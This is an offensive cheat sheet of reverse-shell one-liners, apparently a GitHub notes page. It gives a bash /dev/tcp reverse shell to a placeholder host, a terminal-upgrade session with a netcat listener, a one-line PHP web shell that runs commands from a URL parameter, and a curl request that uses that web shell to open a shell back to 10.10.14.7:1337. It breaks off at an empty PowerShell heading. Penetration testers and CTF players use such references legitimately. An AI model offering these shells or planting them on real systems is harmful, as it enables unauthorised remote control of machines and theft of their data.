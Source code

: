 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
Shell Upgrade
```
root@target:/backend# script /dev/null -c bash
script /dev/null -c bash            
Script started, file is /dev/null
root@target:/backend# ^Z                 
[1]+  Stopped                 nc -lnvp 1337
chuxtr@kali$ stty raw -echo; fg
nc -lnvp 1337
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@target:/backend#
```
### PHP
Simple PHP WebShell
```bash
<?php system($_GET["Chuxtr"]); ?>
```
Example
```bash
echo '<?php system($_GET["Chuxtr"]); ?>' > Chuxtr.php
```
Usage
```bash
# This example produces a bash shell back to the host (Note the URL encoding)
root@kali# curl 'http://127.0.0.1:52846/Chuxtr.php?chuxtr=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/1337%200%3E%261%27'
```
## Scripts
### Powershell

